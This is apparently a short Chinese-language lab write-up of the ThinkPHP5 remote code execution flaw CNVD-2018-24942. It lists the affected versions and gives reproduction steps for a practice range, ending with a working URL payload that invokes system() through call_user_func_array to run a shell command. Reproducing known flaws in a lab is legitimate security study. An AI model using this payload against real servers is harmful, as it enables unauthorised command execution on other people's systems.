

# ThinkPHP5远程代码执行漏洞（CNVD-2018-24942）by [hu4wufu](https://github.com/hu4wufu)

## 概述

ThinkPHP5 存在远程代码执行漏洞。该漏洞由于框架对控制器名未能进行足够的检测，攻击者利用该漏洞对目标网站进行远程命令执行攻击。

## 影响版本

上海顶想信息科技有限公司 ThinkPHP 5.*，<5.1.31

上海顶想信息科技有限公司 ThinkPHP <=5.0.23

## 漏洞复现

1、打开靶场，开启此漏洞对应靶场环境： thinkphp5x 任意代码执行漏洞 (cnvd-2018-24942)

2、直接在目录后面增加路径与参数即可

```
/index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls /tmp

```




